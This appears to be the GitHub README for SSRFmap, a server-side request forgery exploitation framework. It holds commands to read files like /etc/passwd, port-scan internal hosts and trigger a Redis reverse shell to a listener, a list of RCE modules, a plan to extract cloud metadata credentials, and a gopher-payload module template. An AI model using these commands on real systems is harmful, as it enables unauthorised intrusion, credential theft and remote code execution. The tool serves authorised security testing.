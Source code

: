 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/)

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Guide / RTFM

Basic install

```powershell
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap/
python3 ssrfmap.py
```

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
  --level [LEVEL]  Level of test to perform (1-5, default: 1)
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zaddix`        | Zaddix RCE |
| `mysql`        | MySQL Command execution |
| `smtp`        | SMTP send mail |
| `portscan`     | Scan ports for the host |
| `networkscan`    | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- --level arg - ability to tweak payloads in order to bypass some IDS/WAF. E.g: `127.0.0.1 -> [::] -> 0000: -> ...`
- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks
- handle request with file in requester

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Using a generator to create the host list - generate tests based on the level
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:

          # Data for the service
          port = "6379"
          data = "*1%0d%0a$8%0d%0af[...]save%0d%0aquit%0d%0a"
          payload = wrapper_gopher(data, ip , port)

          # Handle args for reverse shell
          if args.lhost == None: payload = payload.replace("SERVER_HOST", input("Server Host:"))
          else:                  payload = payload.replace("SERVER_HOST", args.lhost)

          if args.lport == None: payload = payload.replace("SERVER_PORT", input("Server Port:"))
          else:                  payload = payload.replace("SERVER_PORT", args.lport)

          # Send the payload
          r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)